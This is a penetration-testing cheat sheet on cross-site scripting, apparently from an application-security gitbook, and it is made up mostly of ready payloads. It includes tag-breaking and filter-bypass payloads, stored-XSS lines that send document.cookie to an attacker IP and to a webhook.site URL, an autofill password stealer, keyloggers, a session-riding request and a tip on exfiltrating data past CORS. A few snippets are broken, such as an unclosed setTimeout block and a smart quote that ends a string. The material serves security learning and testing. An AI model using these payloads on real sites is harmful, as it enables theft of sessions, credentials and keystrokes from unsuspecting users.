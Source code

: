 [https://appsecexplained.gitbook.io/appsecexplained/common-vulns/javascript-injection-xss/xss-methodology](https://appsecexplained.gitbook.io/appsecexplained/common-vulns/javascript-injection-xss/xss-methodology)
## Identify
---
Are we able to control any data that is being reflected back and rendered by the application?

Important considerations:

- Where is the payload executing?
- What input validation exists?

## HTLM Tag Context
---
If we have control over content that is being reflected in an html tag.
You can try to close the tag and exec
```
"><script>prompt(1)</script>
"><img src=x onerror="prompt(1)">
```
If you have control over an `href` you can try the javascript browser scheme
```
http://example.com --> javascript:prompt()
```
Or just close tag early
```
</selected><img src=x onerror="prompt(1)">
```
## Javascript context
---
If we have control over content that is being reflected into a javascript context. Example:
```javascript
var querySearch = 'controlledInput'
```
Break the quote by appending input and comment out trailing semicolon.
```
controlledInput';prompt()//';
```


## General

### Quickly test for unfiltered tags
---
1. Get a list of tags (copy to clipboard [https://portswigger.net/web-security/cross-site-scripting/cheat-sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet))
2. Intercept request with burp, send to intruder.
![](../../../../assets/Pasted%20image%2020250629173700.png)
3. Paste the tags into the payloads. 
4. Start attack, monitor for unfiltered response codes, different length responses, etc...
5. You've hopefully found an unfiltered tag.
6. You can append portions of the payloads to determine exactly what is triggering the block.
7. Copy the events from portswigger, do the same thing for the event portion of the payload.


**Test html injection first, usually this is a good indicator (JS = you might need to bypass filter)**
```Python
<h1>test</h1>
```
**Payloads**
```html
<script>alert()</script>
```
```html
<script>print()</script>
```
```html
<script>prompt("string")</script>
```
```html
<script>alert(window.origin)</script>
```
```html
 <plaintext>
```
!!! alert "info"
	Many modern web applications utilize cross-domain IFrames to handle user input, so that even if the web form is vulnerable to XSS, it would not be a vulnerability on the main web application. This is why we are showing the value of window.origin in the alert box, instead of a static value like 1. In this case, the alert box would reveal the URL it is being executed on

**You need to trigger XSS if not executed on page load**
```html
<img src=x onerror="prompt(1)">
```
**Redirect**
```html
<img src=x onerror="window.location.href='<https://example.com>'">
```
**script tag filter**
```html
<img src=x onerror=print()>
```
```html
<scri<script>pt>prompt(1)<scri</scr</script>ipt>
```
**Keylogger**
```html
function logKey(event){console.log(event.key)}
```
```html
 document.addEventListener('keydown', logKey)
```


## DOM XSS
---
### Identify
You have XSS execution, but no http requests are being made. We see that the input parameter in the URL is using a hashtag # for the item we added, which means that this is a client-side parameter that is completely processed on the browser. This indicates that the input is being processed at the client-side through JavaScript and never reaches the back-end. This is DOM XSS
if we look at the page source by hitting `CTRL+U`, we will notice that our `test` string is nowhere to be found. This is because the JavaScript code is updating the page when we click the `Add` button
We can still view the rendered page source with the Web Inspector tool by clicking `CTRL+SHIFT+C`:

## Stored
**Steal admin cookie (classic)**
```html
<script>fetch("<http://192.168.187.130:9999/>" + document.cookie)</script>
```
```html
<script>var i = new Image; i.src="https://webhook.site/9b3374bf-b997-4021-a302-de75a26fd841/?"+document.cookie;</script>
```

!!! alert "note"
	Sometimes you may need to trigger the payload with JS as well (JS to resize the screen when using an onresize event to trigger)

### Automated with DOM Invader
---
Turn DOM invader on via the burp extension. Open dev tools,click DOM Invader tab.
Input the provided canary to potential execution. DOM Invader will identify sources and sinks for that data.

## Note on CORS
---
CORS policy will not block data exfil, only the REPONSES from non-allowlisted domains are blocked. The request will still be made, (to your webhook etc) just pass the `mode: 'no-cors'`


## Extending XSS
Steal cookies
```JS
<img src="http://localhost?c='+document.cookie+'" /> fetch("http://localhost?c="+document.cookie);
```
Accessing local & session storage
```JS
let localStorageData = JSON.stringify(localStorage) let sessionStorageData = JSON.stringify(sessionStorage)
```
Autofill stealer
```JS
// create the input elements
let usernameField = document.createElement("input")
usernameField.type = "text"
usernameField.name = "username"
usernameField.id = "username"
let passwordField = document.createElement("input")
passwordField.type = "password"
passwordField.name = "password"
passwordField.id = "password"
// append the elements to the body of the page
document.body.appendChild(usernameField)
document.body.appendChild(passwordField)
// exfiltrate as needed (we need to wait for the fields to be
filled before exfiltrating the information)
setTimeout(function() {
console.log("Username:",
document.getElementById("username").value)
console.log("Password:",
document.getElementById("password").value)
```

Session Riding
```JS

let xhr = new XMLHttpRequest();
xhr.open('POST','http://localhost/updateprofile',true);
xhr.setRequestHeader('Content-type','application/x-www-form-
urlencoded');
xhr.send('email=updated@email.com (mailto:updated@email.com)’);
```
Keylogging
```JS
Keylogging
document.onkeypress = function(e) {
get = window.event ? event : e
key = get.keyCode ? get.keyCode : get.charCode
key = String.fromCharCode(key)
console.log(key)
}
```

## XSS Filter Evasion
---
OWASP cheat sheet is pretty good
[https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html)




